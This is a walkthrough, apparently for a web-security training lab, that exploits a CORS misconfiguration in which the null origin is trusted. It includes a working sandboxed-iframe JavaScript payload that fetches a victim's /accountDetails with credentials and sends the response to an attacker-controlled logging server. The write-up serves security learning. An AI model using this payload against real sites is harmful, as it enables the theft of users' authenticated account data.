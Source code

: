 We start with setting the **Target Scope** to the target domain. Then we set our browser to use Burp proxy and turn the Burp intercept **off**. After logging in with creds provided we see all the requests made in the target sitemap. Out of this one request to `/accountDetails` stands out as it contains a CORS header `Access-Control-Allow-Credentials: true`.

![image](https://user-images.githubusercontent.com/86168235/127904611-c2910c0e-3c84-466f-ad33-4024e538037f.png)


Next we add a `Origin` header to the request with a random website name and find that random requester `Origin` is blocked by CORS policy. So, next we sent the request with `Origin: null` header and we see that our request got a response with `Access-Control-Allow-Origin: null` header which means our requested `null` Origin is whitelisted by CORS policy and we can further exploit this.

Same as in Lab 1 we go to the exploit server and insert out payload into the Body part. Use the following code:-

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
const xhr = new XMLHttpRequest(),
    method = 'GET',
    url = 'https://ac8d1f9f1f373e2980af24f4009a00a2.web-security-academy.net/accountDetails';
    
function handler() {
    location='https://exploit-ac781fd71f833e3280d6247b01c900e9.web-security-academy.net/log?body='+this.responseText;
    };
xhr.onload = handler;
xhr.open(method, url, true);
xhr.withCredentials = true;
xhr.send();
</script>"></iframe>
```
**Note**:- As sandboxed cross-origin requests are treated as null origin requests by browsers, the above iframe sandbox will create a null origin request for us, thus helping satisfy CORS whitelist.

---

**Next**, click on `Deliver exploit to victim` and check the `Access log` and you'll see the `/accountDetails` response body of the administrator user in our logs.

![image](https://user-images.githubusercontent.com/86168235/127904943-be8b940c-3c39-4d3b-9987-e438b41d7d14.png)
